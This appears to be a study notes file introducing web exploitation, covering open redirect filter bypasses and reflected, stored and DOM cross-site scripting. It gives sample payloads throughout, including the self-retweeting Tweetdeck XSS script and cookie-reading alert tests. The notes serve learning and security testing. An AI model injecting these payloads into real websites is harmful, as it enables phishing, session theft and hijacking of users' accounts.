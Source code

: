 # Intro to Web Exploitation

## Open redirect

Takes user input to redirect the client from its page to another, usually
controlled by the attacker. Low impact unless used with other vulnerabilities
to escalate. Sometimes the application has security measures to prevent user
from inputting disallowed websites, but bypass is possible; look below.

```
// Allowed
https://example.com/login/?nextPage=https://google.com

// Not allowed
https://example.com/login/?nextPage=https://attackerSite.com

// Allowed
https://example.com/login?nextPage=https://evilsite.com/?google.com
```

## Open redirect lab

This redirects to link after '@'
```
https://google.com@yahoo.com
```

## XSS

Used to execute arbitrary code on client's browser, uses:
1. Phishing
1. Dumping data
1. Account hijack

Attacker injects malicious code onto the website, clients click on link or
visit the website url then the malicious script is executed on their browser.
Executed malicious code is static and predefined. Payload had privilege that
the user has, if admin account then even higher impact.

Impact:
1. XSS medium
1. Stored XSS high-\>critical

* Reflected XSS: Payload injected from user clicking link
* Stored XSS: Payload is stored server side, user visits the link and payload
  is pulled from db
* DOM XSS: Javascript reflected from user source to function

Reflected Example:
```
example.com/page?name=ASH	 ->	Hello, ASH (Normal)
example.com/page?name=<u>ASH</u> ->	Hello, <u>ASH</u> (No XSS)
example.com/page?name=<u>ASH</u> ->	Hello, __ASH__ (Possible XSS)
```

Stored Example:
```HTML
// Tweetdeck
<script
class="xss">$('.xss').parents().eq(1).find('a').
eq(1).click();$('[data-
action=retweet]').click();alert('XSS in
Tweetdeck')</script>
```

DOM Example:
```
https://example.com/#send-transaction<div/class="header__wrap"><a/href
=javascript:alert(0)><h1>pwn3d</h1></a><img/src=//unskid.me/dist/jesus.gif>
</div>
```

## XSS lab

Simple test for XSS:
```
<u>test</u>
<script>alert(document.cookie)</script>
```

More complex example: (If inside tag 'input' for example)
```
"</input><script>alert(1)</script>
```

Another example: Output as a title or somewhere else
```
</title><script>alert()</script>
```

Interesting example: If input is sanitized somewhat
```
// Original code: var name = 'asd';
';+alert(1);//commentOut
```
